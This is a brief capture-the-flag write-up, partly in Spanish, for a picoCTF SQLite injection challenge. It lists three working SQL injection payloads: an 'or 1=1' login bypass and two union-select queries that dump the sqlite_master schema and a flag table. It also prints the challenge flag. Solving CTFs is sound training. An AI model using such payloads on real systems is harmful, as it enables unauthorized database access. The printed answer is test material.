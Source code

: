 ## Description

Try to find the flag [here](http://saturn.picoctf.net:51011/).
#### Hints
- SQLiLite
## Solución

![[Pasted image 20241103190442.png]]
![[Pasted image 20241103190514.png]]
```
SQL injection from a sqlite database. Queries are: (with spaces after --) 
'or 1=1;--
Algies' union select sql,1,1 from sqlite_master;--
Algiers' union select flag,id,1 from more_table;--
```
![[Pasted image 20241103190847.png]]
![[Pasted image 20241103191024.png]]
![[Pasted image 20241103191055.png]]
![[Pasted image 20241103191107.png]]

## Bandera
```css
flag: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477}
```
## Notas Adicionales

## Referencias
- [sqlite-master-table](https://www.techonthenet.com/sqlite/sys_tables/index.php)